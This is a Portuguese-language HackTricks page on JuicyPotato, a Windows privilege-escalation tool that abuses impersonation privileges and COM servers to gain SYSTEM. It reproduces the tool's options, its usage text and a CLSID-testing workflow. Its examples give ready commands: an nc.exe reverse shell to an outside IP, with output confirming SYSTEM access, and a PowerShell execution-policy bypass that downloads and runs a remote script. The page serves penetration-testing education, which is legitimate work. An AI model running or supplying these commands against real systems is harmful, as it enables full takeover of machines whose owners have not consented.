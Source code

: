 # JuicyPotato

{{#include ../../banners/hacktricks-training.md}}

> [!WARNING]
> **JuicyPotato não funciona** no Windows Server 2019 e no Windows 10 build 1809 em diante. No entanto, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) podem ser usados para **aproveitar os mesmos privilégios e obter acesso ao nível `NT AUTHORITY\SYSTEM`**. _**Verifique:**_

{{#ref}}
roguepotato-and-printspoofer.md
{{#endref}}

## Juicy Potato (abusando dos privilégios dourados) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Uma versão adoçada de_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, com um pouco de suco, ou seja, **outro ferramenta de Escalação de Privilégios Locais, de Contas de Serviço do Windows para NT AUTHORITY\SYSTEM**_

#### Você pode baixar juicypotato em [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Resumo <a href="#summary" id="summary"></a>

[**Do Readme do juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) e suas [variantes](https://github.com/decoder-it/lonelypotato) aproveitam a cadeia de escalonamento de privilégios baseada no [`BITS`](<https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799(v=vs.85).aspx>) [serviço](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) tendo o ouvinte MiTM em `127.0.0.1:6666` e quando você tem privilégios `SeImpersonate` ou `SeAssignPrimaryToken`. Durante uma revisão de build do Windows, encontramos uma configuração onde `BITS` foi intencionalmente desativado e a porta `6666` foi ocupada.

Decidimos armar [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Diga olá para Juicy Potato**.

> Para a teoria, veja [Rotten Potato - Escalonamento de Privilégios de Contas de Serviço para SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) e siga a cadeia de links e referências.

Descobrimos que, além de `BITS`, há vários servidores COM que podemos abusar. Eles só precisam:

1. ser instanciáveis pelo usuário atual, normalmente um “usuário de serviço” que tem privilégios de impersonação
2. implementar a interface `IMarshal`
3. rodar como um usuário elevado (SYSTEM, Administrador, …)

Após alguns testes, obtivemos e testamos uma lista extensa de [CLSID’s interessantes](http://ohpe.it/juicy-potato/CLSID/) em várias versões do Windows.

### Detalhes suculentos <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato permite que você:

- **CLSID de destino** _escolha qualquer CLSID que você quiser._ [_Aqui_](http://ohpe.it/juicy-potato/CLSID/) _você pode encontrar a lista organizada por SO._
- **Porta de escuta COM** _defina a porta de escuta COM que preferir (em vez da 6666 codificada)_
- **Endereço IP de escuta COM** _vincule o servidor a qualquer IP_
- **Modo de criação de processo** _dependendo dos privilégios do usuário impersonado, você pode escolher entre:_
- `CreateProcessWithToken` (precisa de `SeImpersonate`)
- `CreateProcessAsUser` (precisa de `SeAssignPrimaryToken`)
- `ambos`
- **Processo a ser iniciado** _inicie um executável ou script se a exploração for bem-sucedida_
- **Argumento do Processo** _personalize os argumentos do processo iniciado_
- **Endereço do Servidor RPC** _para uma abordagem furtiva, você pode autenticar-se em um servidor RPC externo_
- **Porta do Servidor RPC** _útil se você quiser autenticar-se em um servidor externo e o firewall estiver bloqueando a porta `135`…_
- **MODO DE TESTE** _principalmente para fins de teste, ou seja, testando CLSIDs. Ele cria o DCOM e imprime o usuário do token. Veja_ [_aqui para testes_](http://ohpe.it/juicy-potato/Test/)

### Uso <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Considerações finais <a href="#final-thoughts" id="final-thoughts"></a>

[**Do juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Se o usuário tiver privilégios `SeImpersonate` ou `SeAssignPrimaryToken`, então você é **SYSTEM**.

É quase impossível prevenir o abuso de todos esses Servidores COM. Você poderia pensar em modificar as permissões desses objetos via `DCOMCNFG`, mas boa sorte, isso vai ser desafiador.

A solução real é proteger contas e aplicações sensíveis que rodam sob as contas `* SERVICE`. Parar o `DCOM` certamente inibiria esse exploit, mas poderia ter um impacto sério no sistema operacional subjacente.

De: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Exemplos

Nota: Visite [esta página](https://ohpe.it/juicy-potato/CLSID/) para uma lista de CLSIDs para testar.

### Obter um shell reverso nc.exe
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Inicie um novo CMD (se você tiver acesso RDP)

![](<../../images/image (300).png>)

## Problemas de CLSID

Muitas vezes, o CLSID padrão que o JuicyPotato usa **não funciona** e a exploração falha. Normalmente, são necessárias várias tentativas para encontrar um **CLSID funcional**. Para obter uma lista de CLSIDs para tentar em um sistema operacional específico, você deve visitar esta página:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Verificando CLSIDs**

Primeiro, você precisará de alguns executáveis além do juicypotato.exe.

Baixe [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) e carregue-o em sua sessão PS, e baixe e execute [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Esse script criará uma lista de possíveis CLSIDs para testar.

Em seguida, baixe [test_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat)(mude o caminho para a lista de CLSID e para o executável juicypotato) e execute-o. Ele começará a tentar cada CLSID, e **quando o número da porta mudar, isso significará que o CLSID funcionou**.

**Verifique** os CLSIDs funcionais **usando o parâmetro -c**

## Referências

- [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)

{{#include ../../banners/hacktricks-training.md}}

